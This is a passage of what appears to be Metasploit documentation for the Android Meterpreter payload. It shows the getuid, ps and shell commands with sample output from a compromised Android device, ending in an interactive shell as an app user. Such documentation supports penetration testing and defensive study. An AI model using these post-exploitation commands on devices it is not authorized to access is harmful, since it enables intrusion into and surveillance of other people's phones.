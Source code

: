 ```
IPv6 Netmask : ::
IPv6 Address : 2602:30a:2c51:e660:81ae:6bbd:e0e1:5954
IPv6 Netmask : ::

...
```

**getuid**

The `getuid` command shows the current user that the payload is running as:

```
meterpreter > getuid
Server username: u0_a231
```

**ps**

The `ps` command shows a list of processes the Android device is running. For example:

```
    meterpreter > ps

    Process List
    ============

    PID    Name                                                         Arch  User
    ---    ----                                                         ----  ----
    1      /init                                                              root
    2      kthreadd                                                           root
    3      ksoftirqd/0                                                        root
    7      migration/0                                                        root
    8      rcu_preempt                                                        root
    9      rcu_bh                                                             root
    10     rcu_sched                                                          root
    11     watchdog/0                                                         root
    12     watchdog/1                                                         root
    13     migration/1                                                        root
    14     ksoftirqd/1                                                        root
    17     watchdog/2                                                         root
    18     migration/2                                                        root
    19     ksoftirqd/2                                                        root
    22     watchdog/3                                                         root
    23     migration/3                                                        root

    ...
```

**shell**

The `shell` command allows you to interact with a shell:

```
    meterpreter > shell
    Process 1 created.
    Channel 1 created.
    id
    uid=10231(u0_a231) gid=10231(u0_a231) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50231(all_a231) context=u:r:untrusted_app:s0
```
